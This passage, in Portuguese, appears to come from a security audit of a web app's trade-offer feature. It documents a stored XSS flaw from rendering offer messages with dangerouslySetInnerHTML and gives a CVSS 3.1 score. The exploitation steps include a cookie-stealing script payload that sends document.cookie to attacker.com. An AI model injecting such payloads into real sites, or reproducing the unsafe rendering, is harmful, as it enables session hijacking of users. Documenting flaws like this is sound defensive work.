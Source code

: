 
## 2. Cross-Site Scripting (XSS) Armazenado

### Descrição
O campo de mensagem nas propostas de troca permite a inserção de código JavaScript malicioso que é executado quando outros usuários visualizam a proposta.

### Localização
- **Arquivo**: `app/page.tsx`
- **Componente**: Exibição de mensagens de troca
- **Linha**: `dangerouslySetInnerHTML={{ __html: offer.message }}`

### Código Vulnerável
\`\`\`javascript
<p className="text-sm" dangerouslySetInnerHTML={{ __html: offer.message }}></p>
\`\`\`

### Como Explorar
1. Acesse a aba "Trocas"
2. No campo "Mensagem da troca", insira: `<script>alert('XSS Attack!');</script>`
3. Ou para roubo de cookies: `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>`
4. Crie uma proposta de troca
5. O script será executado quando qualquer usuário visualizar a proposta

### Impacto
- Roubo de sessões e cookies
- Redirecionamento malicioso
- Execução de ações em nome do usuário
- Desfiguração da interface

### Classificação CVSS 3.1
**Vetor**: `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N`

**Pontuação**: 5.4 (MÉDIA)

**Justificativa**:
- AV:N - Vetor de ataque via rede
- AC:L - Baixa complexidade de ataque
- PR:L - Privilégios baixos necessários (usuário logado)
- UI:R - Requer interação do usuário (visualizar proposta)
- S:C - Escopo alterado (afeta outros usuários)
- C:L - Baixo impacto na confidencialidade
- I:L - Baixo impacto na integridade
- A:N - Nenhum impacto na disponibilidade

---

## 3. Insecure Direct Object Reference (IDOR)
